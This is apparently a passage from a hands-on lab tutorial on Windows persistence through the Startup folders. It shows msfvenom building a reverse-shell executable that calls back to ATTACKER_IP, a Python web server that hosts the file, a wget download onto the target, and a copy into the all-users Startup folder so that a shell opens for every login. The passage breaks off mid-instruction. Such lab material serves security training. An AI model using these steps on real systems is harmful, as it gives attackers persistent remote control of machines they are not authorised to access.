 Each user has a folder under
`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST={ATTACKER_IP} LPORT={4450} -f exe -o {revshell.exe}
```

```shell-session
user@AttackBox$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 
```

```shell-session
PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe
```

We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.
```shell-session
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):